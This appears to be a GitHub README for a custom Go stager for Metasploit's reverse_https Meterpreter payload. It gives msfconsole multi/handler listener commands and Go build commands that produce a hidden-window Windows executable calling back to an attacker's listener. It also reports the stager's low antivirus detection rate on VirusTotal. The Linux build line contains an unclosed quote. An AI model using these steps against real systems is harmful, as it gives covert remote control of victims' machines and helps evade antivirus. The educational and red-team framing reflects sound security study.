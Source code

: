 **!!! This is for educational purposes only !!!** <br> **!!! Use this only where authorized !!!**

This is a custom stager written for Metasploit Framework's reverse_https meterpreter payload. I wrote this to get a better understanding of Metasploit Framework's payloads and how well antiviruses detect custom stagers.

# Launching a listener
Using the included `.rc` file launch msfconsole i.e. `msfconsole -f ./listener.rc`

Or run at least the following commands in msfconsole substituting your listening address and port number:
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lport ENTERPORTNUMBERHERE
set lhost ENTERLISTENADDRESSHERE
run
```

# Compiling the payload
The following examples assume you have a shell open in the directory of the msf_rev_https.go file.

These will result in a `.exe` file that will call back to your msfconsole listener.
### Windows
    go build -ldflags "-H=windowsgui -w -s" -o newExecutable.exe . 
### Linux
    env GOOS=windows GOARCH=amd64 go build -ldflags "-s -w -H=windowsgui -o newExecutable.exe .

# Detection
Custom payloads are difficult to detect, at the time of writing this payload was flagged by 3/68 antiviruses on VirusTotal. It is important to note that this is quite low, non-malicious executables are often flagged as well. I have linked below the results from my "newExecutable.exe", and one for putty.exe.

My Go reverse HTTPS meterpreter: https://www.virustotal.com/gui/file/26ac135ef4e7ed030186fc91338989bcbcebfc44c2cb54bc48ace9802097d51b/detection <br>
PuTTY v0.74: https://www.virustotal.com/gui/file/f032c50564a21c39a8c85873a4c96f09eb6398330c67291408497816401957f6/detection